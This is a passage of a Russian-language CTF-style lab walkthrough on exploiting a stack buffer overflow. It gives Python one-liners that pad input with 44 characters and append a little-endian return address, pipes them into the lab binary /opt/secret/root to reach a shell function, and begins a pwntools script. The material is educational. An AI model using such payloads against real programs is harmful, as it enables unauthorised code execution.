 
Нас интересуют шестнадцатеричные адреса памяти. Итак, из того, что мы знаем, нам нужно всего лишь предоставить 44 
символа, а затем "0x080484cb", и функция оболочки должна выполниться, давайте попробуем! 

Примечание: Современные архитектуры ЦП имеют "little endian", что означает, что байты идут в обратном порядке. 
Например, "0x080484cb" станет "cb840408" 

Для этого мы можем использовать Python, так как он предоставляет удобный способ преобразования.

#### Метод 1 — Ручное преобразование:

`python -c 'print "A"*44 + "\xcb\x84\x04\x08"'` выведет нужную нам полезную нагрузку, но ее нужно будет вручную 
преобразовать в little endian

#### Метод 2 — Структура:
`python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'`

Для этого требуется импортировать модуль, но struct.pack позволяет нам автоматически преобразовывать память в формат 
`little endian`. 

Мы печатаем 44 случайных символа (в данном случае A), а затем наш адрес памяти в порядке от младшего к старшему, и 
оболочка должна выполниться. Это можно проверить, передав вывод в двоичный файл 

`python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root` должен предоставить вам этот вывод.

Мы сделали это!

### Ответьте на вопросы ниже
Ура!
```commandline
Ответ не нужен
```

## Задание 9
Pwntools — это библиотека Python, призванная сделать все, что мы только что сделали в последней задаче, намного 
проще. Однако, поскольку это библиотека, для ее полного использования требуются знания Python, и поэтому все в этой 
задаче будет сделано с использованием скрипта Python.  

Начнем сценарий так:
```commandline
from pwn import *
proc = process('/opt/secret/root')
```

Это импортирует все утилиты из библиотеки pwntools, чтобы мы могли использовать их в нашем скрипте, а затем создает 
процесс, с которым мы можем взаимодействовать с помощью функций pwntools. 
